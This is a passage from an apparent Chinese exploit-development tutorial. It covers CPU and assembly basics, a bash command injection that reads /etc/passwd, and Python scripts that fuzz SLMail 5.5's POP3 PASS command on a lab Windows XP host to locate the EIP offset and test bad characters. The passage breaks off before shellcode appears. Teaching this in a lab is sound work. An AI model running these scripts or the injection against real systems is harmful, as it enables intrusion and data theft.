


引言:
改变它的运行轨迹,违背从前的规则,让它按照我的指引
前置知识
系统信息
目标主机
- Windows XP professional 32bit
- Version 5.1 (Build 2600.xpsp_sp3_qfe.130704-0421: Service Pack 3)
本地主机
- Linux kaliAMD64 5.16.0-kali7-amd64
- Debian 5.16.18-1kali1 (2022-04-01) x86_64 GNU/Linux
拓扑图
工具准备
slmail
- 版本: 5.5
- 介绍: SLMail is SMTP and POP3 email server software for Microsoft™ Windows NT and 2000.
- 下载: 点击下载
- 安装: 目标主机
- 说明: 本软件是一个邮件服务器软件, 后续将对其进行缓冲区溢出
Immunity Debugger
- 版本: 1.85
- 介绍: Immunity Debugger is a powerful new way to write exploits, analyze malware, and reverse engineer binary files.
- 下载: 点击下载
- 安装: 目标主机
- 说明: 本软件是图形化的debug工具, 提供可视化以便操作, 另外作为
mona.py脚本的执行平台
mona
- 版本: NA
- 介绍: Mona.py is a python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform). It runs on Immunity Debugger and WinDBG, and requires python 2.7.
- 下载: 点击下载
- 安装: 目标主机
- 说明: 脚本
mona.py, 为方便我们查找系统中可被利用的系统模块
机器语言&汇编&C语言
为了使和计算机沟通这件事更简单，人们花了很大的力气。
在内容的显示上，人们把单独的0101, 封装成一个便于表述的单元（字节Byte）。一个字节表示8个二进制数（Binary），如11101010。有了描述的名称，我们现在需要一个更先进的显示方式，于是16进制（Hexadecimal）被发现了，它通过将4个二进制数封装为1个16进制符号对内容进行压缩，显示的便利性得到了解决（1110 1010 –> EA）。
在执行指令上，计算机CPU只认识0101，无论是数据还是操作指令，微观上看都被视为0101，CPU本身并去区分数据和指令。CPU的职责是专注履行它该做的事情，即提取指令Fetch，解析指令Decode，执行指令Execute，进行一个又一个指令周期Instruction cycle的循环，起到指挥控制作用的是CPU时钟clock pluse。
- Fetch
- 从当前存储在
程序计数器（Program Counter）中的内存地址中取出下一条指令，并存储到指令寄存器（Instruction Register）中。在取指操作结束时，PC指向将在下一个周期读取的下一条指令。
- 从当前存储在
- Decode
指令寄存器（Instruction Register）中呈现的编码指令将由解码器解释- 需读取有效地址： 数据存放在寄存器或内存中，由此产生了直接寻址和间接寻址的问题
- 直接寻址：它包含数据的实际地址
- 获取方式：首先通过指令读取地址，然后读取数据
- 间接寻址：它包含实际地址所在的内存位置的有效地址
- 获取方式：首先通过指令读取有效地址，然后读取实际地址，最后得到数据。
- 寻址方式：即寄存器间接/内存间接
- 直接寻址：它包含数据的实际地址
- 需读取有效地址： 数据存放在寄存器或内存中，由此产生了直接寻址和间接寻址的问题
- 无需获得有效地址
- 如果指令是直接指令，则在此时钟脉冲期间什么都不做。如果这是 I/O 指令或寄存器指令，则在时钟脉冲期间执行操作
- Execute
- CPU 的控制单元将解码后的信息作为一系列控制信号传递给 CPU 的相关功能单元，以执行指令所需的动作，例如从寄存器中读取值，将它们传递给 ALU 执行数学或逻辑运算函数，并将结果写回寄存器。如果涉及 ALU，它会将条件信号发送回 CPU。操作生成的结果存储在主存储器中或发送到输出设备。根据来自 ALU 的反馈，PC 可能会更新到不同的地址，下一条指令将从该地址中取出。
其中，需要指出的是，PC（Program Counter）作用是指向下一条要执行的指令，是一个抽象的概念术语，其具体实现是基于CS（code segment）:IP（instruction pointer）这两个寄存器来实现的。
8086CPU的计算方式：段地址×16+偏移地址=物理地址
- CPU 的控制单元将解码后的信息作为一系列控制信号传递给 CPU 的相关功能单元，以执行指令所需的动作，例如从寄存器中读取值，将它们传递给 ALU 执行数学或逻辑运算函数，并将结果写回寄存器。如果涉及 ALU，它会将条件信号发送回 CPU。操作生成的结果存储在主存储器中或发送到输出设备。根据来自 ALU 的反馈，PC 可能会更新到不同的地址，下一条指令将从该地址中取出。
不难发现，指令周期是CPU执行代码的运行逻辑。为了脱离0101的束缚，人们开始将特定组合的0101指令封装成了一个个更为衣冠楚楚易于辨识的单词/简写。让写程序变成一件更接近“人”干的事情，让使用机器语言来编程成为了尘封往事。这首要的第一件事便是立名，通过对寄存器register使用习惯的不同，人们将其划分为三类通用寄存器，段寄存器和控制寄存器`。
- 通用寄存器(General registers)
- 数据寄存器(Data registers)
- EAX(Accumulator) / EBX(Base) / ECX(Count) / EDX(Data) : 存放数据
- 变址寄存器(Index registers)
- ESI(Source Index)：字符串操作源指针
- EDI(Destination Index)：字符串操作目标指针
- 指针寄存器(Pointer registers)
- EIP(Instruction Pointer)：保存着下一条要执行的指令的地址。程序运行时，CPU会读取EIP中的一条指令的地址，传送指令到指令缓冲区后，EIP寄存器的值自动增加，增加的大小即是读取指令的字节大小，即下一条指令的地址为当前指令的地址加上当前指令的长度。
- EBP(Base Pointer) ：SS段中堆栈内数据指针。EBP由高级语言用来引用参数和局部变量，通常称为堆栈基址指针寄存器。
- ESP(Stack Pointer)：SS段中堆栈指针。ESP用来寻址堆栈上的数据，ESP寄存器一般不参与算数运算。
- 数据寄存器(Data registers)
- 段寄存器(segment registers)
- CS(Code Segment): 它包含所有要执行的指令
- DS(Data Segment): 它包含数据、常量和工作区
- SS(Stack Segment): 它包含过程或子例程的数据和返回地址
- ES(Extra Segment): 指内存中的一个段，它是内存中的另一个数据段
- 控制寄存器(flags/psw)
- Overflow Flag (OF): 用来反应有符号数加减法运算所得结果是否溢出。运算超出当前运算位数所能表示的范围，则称为溢出，标志位被置为1，否则为0
- Direction Flag (DF): 用于串操作指令中，控制地址的变化方向。当DF为0时，存储器地址自动增加;当 DF为1时，存储器地址自动减少。
- Interrupt Flag (IF): 用于控制外部可屏蔽中断是否可以被处理器响应。
- Trap Flag (TF): 用于控制处理器是否进入单步操作方式。当TF为0时，处理器在正常模式下运行；当为1时，处理器单步执行指令，调试器可以逐步指令进行执行就是使用了该标志位。
- Sign Flag (SF): 用来反映运算结果是否为0。运算结果为负时置为1，否则为0。
- Zero Flag (ZF): 用来反映运算结果是否为0。为零时置为1，否则为0。
- Auxiliary Carry Flag (AF): 在字操作址，发生低字节向高字节进位或借位时该标志位被置为1，否则为0。
- Parity Flag (PF): 用于反应结果中“1”的个数的奇偶性。如果“1”为偶数置为1，否则为0。
- Carry Flag (CF): 运算结果的最高位产生了一个进位或错位，则该标志位置为1，否则为0。
一个个存放数字的小格子，从此有了属于它们的名称，大家使用的时候，通过名称进行调用，涉及的操作加减成除和偏移中断触发，当然也需要以名称一一标识，这就不一而足了。
继续沿着指令执行的这条线，CS和IP都有了其相应的寄存器。指令的执行过程，正是通过CS:IP指向的内存地址读取指令，IP寄存器指指向下一条指令，执行相应指令，继续循环。这造就了一个有趣的现象，内存空间是有限的，如果我们设置一个无穷的循环，汇编要如何处理呢？答案是跳转 JMP。因为存放在内存中的指令有对应的内存地址，遇到重复/循环跳到此前地址执行，便可实现对“无穷”的循环。
通过JMP指令，给予对应的地址，它就可以跳转到相应的地址上，实现对内存地址存放代码的执行。对于需要他人集成代码的调用，这是意义深远的，有了JMP命令再提供一个内存地址，便能在内存中畅通无阻，实现对加载于内存中命令的执行。
汇编语言的出现，将冰冷的0101，封装成了人类较为易于识别的语言，例如让寄存器AX，增加10。机器语言是6683C00A，汇编便成为了add ax, 0xa。
1 | 6683C00A add ax, 0xa |
符号的简化是伟大的，它让我们的表达有了质的提升！但并不全是，汇编语言无疑比机器语言容易理解，但表述上仍显得冗余。我们在说加法的时候，有一套十分完善简介的数学符号，计算机处理“数字”运算，这套数学符号的引入显得是那么理所应当。我们不会希望在计算(1+2)*3/4的时候，add，mul，div轮番上阵，更不希望每书写一个循环，就去考虑它如何跳转。我们希望输入的内容足够简明，计算机便能知晓。对于汇编的抽象成为了一个摆在眼前的问题，C语言应运而生，它对数据类型，循环，判断等结构都降维到了一个大家有一些基础就可以理解的程度，它足够的精简，满足的上手容易但精通困难的特点。它让程序的开发，有了一个质的改变，这个质的飞跃终于在这里得到了实现。
小结：指令数据都而二进制，为了便于阅读标识，我们
8个2进制表述为两个16进制组成一个字节进行表示。CPU在每个时钟周期里，提取命令，读取相应字节，执行计算操作，进行下一个周期，周而复始消化指令。而JMP命令的存在，使得代码的执行，不再简单遵循自上而下的顺序，有了在内存中傲游的机会。汇编语言的出现，简化了代码编写的难度，而C语言对其进行“封装”让程序编写变得更为便利。
正文内容

一个漏洞
一个简单的bash脚本漏洞
1 |
|
执行这个脚本，我们需要对其输入一个参数，它将会打印出来，就是那么简单。看似是人畜无害的一行代码，能有什么影响呢？
为了增加沉浸感，我们来一个假设，这个程序是嵌入在网页中的，用户在输入框中填写内容（即 ${1}），点击Click me或「Enter」执行。
对于普通的用户，这个程序出错的概率是很低的。但当有一天，一位用户在按「Enter」的时候，先错收按到的\，滑落到「Enter」。神奇的事情发生了，我们的程序没有按照预订规则，显示出了>（换行显示），这让用户无意间发现了我们的程序，对于特殊字符的键入，并未进行检测。
利用不多的代码知识，一些用户摸清了我们后台用于回先显的代码是bash语言编写的。对于bash的理解和加上管道符的知识，用户实现了对非授权信息进行了访问。
cat /etc/passwd | xargs | tr ' ' '|'
看似是一行简单不存在逻辑漏洞的代码，当它遇到了别有用心的用户，其产生的碰撞是灾难性的。
像这样，程序未按如期设计执行，执行未经授权的操作，便是漏洞利用（exploit）。一个静态的程序是鲜有漏洞问题的，例如不提供输入的打印程序，但同时也是毫无用处的。程序需要接收用户的输入，以此来满足用户的各种需求，这是程序设计的出发点，对用户的输入进行计算产生输出，是一个程序执行的基本规则。即使向上面一个简单的程序，也是遵循用户输入参数，计算（执行显示），将输入输出到屏幕。
产生漏洞的原因在于，程序对用户的输入，并未进行任何的检测，直接输出使用。而在bash中，对于``的内容会被认定为执行的命令，因此首先执行得出结果，返回的结果被当作参数1进行输入“喂”给脚本程序，其再显示出来。最终引致，未授权信息被访问查看，导致敏感信息的泄漏。
缓冲区溢出攻击
缓冲区的攻击是诸多攻击中较为知名的一个，它的原理并不十分复杂。大体上是利用开发者对缓区知识的缺乏（一些基础知识缺失），在开发过程中开发者对输入信息未进行足够的检查或不假思索进行使用，导致为变量分配的空间，被攻击者突破并对主机实施恶意操控。
进一步来说，以C语言为例，程序员需要对变量进行定义，定义决定了两个要素，数据的数据的长度和类型。长度决定了数据的起始空间，从哪里开始到哪里结束，类型决定了数据展现的方式，是字符还是数值。C语言对汇编语言的封装是成功的，它的蔓延和风靡就是最好的证明。与此同时，C语言诞生的那个特殊时期，为其增添了十分独特的历史色彩。例如指针(Pointer)的存在，goto的关键字，还有那句程序员应该知道自己在做什么。可惜的是，自由是一个难以把控的东西。因为它有一个卵生兄弟，称为杂乱无章。在自由野蛮生长的年代，出现了许多天马行空的优秀软件，当然也有了稀奇古怪的bug。
下面的例子是一个简单的栈缓冲区溢出，缓冲区的溢出类型是多样的，栈溢出是一个经典案例。
1 |
|
这个程序的功能十分简单，接收一个用户输出的参数，将参数提交给函数foo，foo对参数进行复制。
特别就特别在，这个参数的复制并未进行输入长度的检查。程序员开放了一个有12个格子的变量c，由于字符串的特点末尾必须存放\0。因此格子实际可用空间为11,可是用户的传入不见得必定少于或等于11个字符，当输入的字符数量超过11时，程序便会crash，由于strcpy不对长度限制的特点，超出的字符仍然回被复制到内存中，覆盖现有代码段落的内容。而当应用程序执行完毕后，它需要将操作权归还给操作系统，此时定会存在一个返回地址。只要当我们，填入足够的载荷（payload），在返回地址的位置，恰好写入一个4字节（32bit）的内存地址，便能让程序执行我们传入内存地址相关的代码，实现非法操控。
以下是简单的图解:

(初始化程序后，内存的示意图)

(传入’hello’作为参数，正常运行的程序)

(传入’A…A\x08\x35\xc0\x80’作为参数，让程序非法跳转到内存地址0x80c03508执行代码)
缓冲区攻击思路
- 找到程序输入入口，进行大量字符的输入试探
- 找到程序出现
crash的门槛 - 确认
crash所需的载荷，精确修改返回地址 - 构建适用的
shellcode - 将
传输载荷、返回地址和shellcode一并传入 - 连接反向链接，获得控制权限，开启图形控制
触发溢出
使用脚本进行交互
安装SLmail，传统windows安装程序，点击「下一步」直到结束即可
（重现实验的时候，由于试用已过期，找到了激活密钥）
重启电脑，slmail相关端口是否打开 (25/tcp, 110/tcp)
1
2
3$ egrep -w 25\|110 /etc/services
smtp 25/tcp mail
pop3 110/tcp pop-3 # POP version 3在保证主机可目标主机可以通信的前提下，通过命令交互与主机取得通信
为了方便操作，我们选择通过脚本进行交互，而不是手工输入
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24#!/usr/bin/env python3
# -*- coding: utf-8
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # 创建socket
ip = '10.0.2.16' # 目标主机IP地址
port = 110 # 连接目标主机pop3端口
try:
print("\nsending buff..\r\n") # 打印开始 >>
s.connect((ip, port)) # 建立socket连接
print(s.recv(1024).decode('utf-8')) # 打印输出内容
s.send(b"USER Archive\r\n") # 用户名`Archive`登录
print(s.recv(1024).decode('utf-8'))
s.send(b"PASS test\r\n") # 输入用户`Archive`的密码`test`验证 (是否登录成功并不重要)
print(s.recv(1024).decode('utf-8'))
s.send(b"quit\r\n") # 正常退出
print(s.recv(1024).decode('utf-8'))
except Exception as e:
print(e)
finally:
s.close() # 断开socket连接
print('Done.') # 打印退出 >>localhost执行脚本输出内容
摸索缓冲区
打开
Immunity Debugger调试工具启动「File」-> 「Attach」
关联程序，进行debug
选择
name为「SLmail」的行，并点击「Attach」选择关联的程序，并确认
显示
「Paused」的界面程序右下角显示，当前程序的状态
按「F9」，状态显示为「Runing」
类似于点击
运行，程序继续执行
尝试对
PASS字段进行缓冲区测试，企图触发缓冲区溢出漏洞1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27#!/usr/bin/env python3
# -*-coding: utf-8-*-
import socket
times = 100
ip = '10.0.2.16'
port = 110
for i in range(30):
buffer = 'A' * times
times += 100
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(30) # 30秒无法建立socket，将判断为超时
s.connect((ip, port))
s.recv(1024)
s.send(b'USER test\r\n')
print('\nFuzzing PASS with {} bytes'.format(len(buffer)))
s.send('PASS {}\r\n'.format(buffer).encode())
s.recv(1024).decode()
s.close()
except Exception as e:
print('could note connect to server.')
print(e)当脚本程序发送到2700字符长度的时候，程序因为
recv（）阻塞，长时间无响应- 程序运行受阻
在localhost执行脚本
- 程序运行受阻
查看调试器
Immunity发现其状态变换为「Paused」- 查看右上角「Debug registers」能够看到「EIP」和「EBP」现在存放的内容是
0x41414141 - 字母
A的ASCII编码便是0x41，在target主机查看
Immunity处于停止状态
- 查看右上角「Debug registers」能够看到「EIP」和「EBP」现在存放的内容是
EIP由于无法访问
0x414141这个地址，因此造成程序被动停止「Paused」- 通过按「F9」继续执行，我们便会触发告警
通过「F9」继续执行程序，弹出警告对话框：地址0x41414141无法读取
- 通过按「F9」继续执行，我们便会触发告警
- 小结：在输入长度
2600～2700字节之间，Pass的输入存在缓冲区溢出的可能。下一步将进行缓冲区大小的准确定位。
定位缓冲
判断缓冲区大小
在两个长度之间定位具体的点，我们常用的方法是遍历法O(N)和二分法O(N/2)。以上两种方法都是通过不断的碰撞，缩小搜索范围，以此靠近临界点。但是否有一个方法，可以更快地进行定位呢？以内存空间为尺度，每4个字节作为一个分割，构建彼此相邻都不相同的字符串，我们将得到一个一个刻度尺。通过输入刻度尺进行丈量，通过得到使用特殊字符串和刻度尺进行定位，我们就可以以算法复杂度O(1)定位缓冲大小。
这个方法称为：唯一字符串法
- 工具位置:
- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb # 生成唯一字符串
- /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb # 计算字符串偏移
- 工具位置:
由于程序已经
crash，重启(关闭/开启)Immunity重新启动服务
service.msc的「SeattleLab POP3 server」和「SeattleLab Smtp Server」Immunity重新挂载SLmail，按「F9」使调试处于Running状态由于这几个步骤多次使用，并且联动操作，往后提及将使用
「调试slmail」代替生成唯一字符串
1
2/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
Aa0Aa1Aa2...l7Dl8Dl9将字符串放进程序中
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69#!/usr/bin/env python3
#-*-coding: utf-8-*-
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = '10.0.2.16'
port = 110
buffer =('Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9'
'Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'
'Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9'
'Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9'
'Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9'
'Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9'
'Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9'
'Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9'
'Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9'
'As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9'
'Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9'
'Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9'
'Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9'
'Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9'
'Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9'
'Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9'
'Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9'
'Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9'
'Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9'
'Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9'
'Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9'
'Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9'
'Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9'
'Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9'
'Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9'
'By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9'
'Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9'
'Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9'
'Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9'
'Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9'
'Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9'
'Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9'
'Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9'
'Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9'
'Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9'
'Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9'
'Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9'
'Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9'
'Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9'
'Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9'
'Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9'
'De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9'
'Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9'
'Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9'
'Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9')
try:
print("Sending buffer...")
s.connect((ip, port))
s.recv(1024)
s.send(b'USER test\r\n')
s.recv(1024)
s.send('PASS {}\r\n'.format(buffer).encode())
s.recv(1024)
except Exception as e:
print(e)
finally:
s.close()执行脚本程序，查看
Immunity调试信息
可以看到EIP当前显示为
0x39694438，对照ASICC表，信息为9iD8
内存使用小端little-endian的存储方式，所以定位到的字符应为8Di9通过偏移查询
通过定位验证，
8Di9和0x39694438偏移量都是2606
即前面2606字节是触发溢出的前提，往后四个字节8Di9能触发EIP寄存器的变化
验证EIP修改
溢出的触发只和大小有关，和内容无关，因此前2606个字符选择是任意的，这里选用A。为了和前面内容区分，对于即将修改的EIP我们使用B，同时把后面的内容覆盖为C。选择覆盖400个字节，是因为shellcode的大小往往在300个字节左右。
「调试slmail」
验证
EIP修改是否成功1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22#!/usr/bin/env python3
#-*-coding: utf-8-*-
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = '10.0.2.16'
port = 110
buffer = 'A'*2606 + 'BBBB' + 'C'*400
try:
print("Sending buffer...")
s.connect((ip, port))
s.recv(1024)
s.send(b'USER test\r\n')
s.recv(1024)
s.send('PASS {}\r\n'.format(buffer).encode())
s.recv(1024)
except Exception as e:
print(e)
finally:
s.close()通过
2606个A，我们触发了缓冲区溢出，BBBB的显示，表示我们成功修改了EIP
并且一个意外发现ESP被我们修改成了CCC..CCC
- 小结：溢出的大小为
2606字节，修改随后四位即可修改EIP，对程序进行控制。下一步：将在ESP的空间构建shellcode，利用EIP进行跳转。
进行渗透
剔除坏字符(bad characters)
程序自身也存在协议，例如协定某个字符不能使用，某个字符出现，系统就需要中断。我们在构建shellcode之前，必须要把这些控制/特殊字符撇开，否则在植入shellcode的时候，脚本将出现莫名其妙的问题。这里说的字符是0xff(256)个二进制，坏字符的排查有点类似沙中淘金，即坏字符是字符中少数的。因此，我们可以生成所有的字符，填写到内存中，再一一甄别出来。
坏字符的特征
- 改变显示的字符
- 使显示的顺序改变
- 抹去/增加前面显示的字符
下面以一个字符为例进行切入，其他坏字符的剔除也是类似的
「调试slmail」
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42#!/usr/bin/env python3
#-*-coding: utf-8-*-
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ip = '10.0.2.16'
port = 110
# badchars = > \x0a, \x0d, \x00
badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
